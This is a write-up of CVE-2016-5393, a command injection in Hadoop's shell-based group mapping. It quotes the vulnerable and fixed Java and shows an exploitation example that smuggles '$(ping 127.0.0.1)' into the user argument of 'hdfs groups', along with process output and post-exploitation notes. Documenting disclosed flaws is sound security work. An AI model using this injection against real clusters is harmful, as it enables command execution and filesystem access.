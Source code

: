 CVE-2016-5393 - Authenticated command execution as the hdfs user
================================================================

Description
-----------
Hadoop 2.6.x < 2.6.5 and 2.7.x < 2.7.3 is vulnerable to an **authenticated command execution as the hdfs user on clusters having `org.apache.hadoop.security.ShellBasedUnixGroupsMapping` as the `hadoop.security.group.mapping` property** (defined in `core-site.xml`).  

This property is **not the default value**, which is [`org.apache.hadoop.security.JniBasedUnixGroupsMappingWithFallback`](https://hadoop.apache.org/docs/r2.6.0/hadoop-project-dist/hadoop-hdfs/HdfsPermissionsGuide.html#Group_Mapping), and which is **not vulnerable**.  

The vulnerability relies in the fact that the group lookup function of a username does not escape the provided **`user` parameter** and pass it to a **`"bash -c"` command**.   

The vulnerable code is located in the `hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java` file of [that revision](https://github.com/apache/hadoop/blob/9d4d30243b0fc9630da51a2c17b543ef671d035c/hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java) in the `getGroupsForUserCommand` function:
```
public static String[] getGroupsForUserCommand(final String user) {
//'groups username' command return is inconsistent across different unixes
return WINDOWS ?
  new String[]
      {getWinUtilsPath(), "groups", "-F", "\"" + user + "\""}
  : new String[] {"bash", "-c", "id -gn " + user + "; id -Gn " + user};
}
```  
This vulnerability has been fixed on August 2nd 2016 in the [following commit](https://github.com/apache/hadoop/commit/954465e7ba3af3e5b083b6251562e5e77529f906) by adding the `bashQuote` function:
```
static String bashQuote(String arg) {
  StringBuilder buffer = new StringBuilder(arg.length() + 2);
  buffer.append('\'');
  buffer.append(arg.replace("'", "'\\''"));
  buffer.append('\'');
  return buffer.toString();
}

public static String[] getGroupsForUserCommand(final String user) {
  //'groups username' command return is inconsistent across different unixes
  if (WINDOWS) {
    return new String[]
        {getWinUtilsPath(), "groups", "-F", "\"" + user + "\""};
  } else {
    String quotedUser = bashQuote(user);
    return new String[] {"bash", "-c", "id -gn " + quotedUser +
                          "; id -Gn " + quotedUser};
  }
}
```
  
Exploitation
------------
* With the Hadoop client command `hdfs groups`:
  ```
  $ hdfs groups '$(ping 127.0.0.1)'
  
  $ ps aux|grep --color "ping 12"
  ...
  hdfs      6227  0.0  0.0  15484   764 ?        S    13:24   0:00 bash -c id -gn $(ping 127.0.0.1)&& id -Gn $(ping 127.0.0.1)
  hdfs      6228  0.0  0.0  14732   868 ?        S    13:24   0:00 ping 127.0.0.1
  ...
  ```
* Through the `user.name` parameter on WebHDFS, but in that case:
  * `Simple` authentication should be deployed in order to have `user.name` manipulable  
  * So this does not provide more read access to data, as `Simple` authentication does not protect from user spoofing, but it adds command execution capability on the NameNode  
  
  
Post-exploitation
-----------------
Being the `hdfs` user, an attacker could then **access the entire distributed filesystem* as well as gaining a **unprivileged shell access** to the NameNode.  
  
  
References
----------
* https://www.cvedetails.com/cve/CVE-2016-5393/
* http://seclists.org/oss-sec/2016/q4/537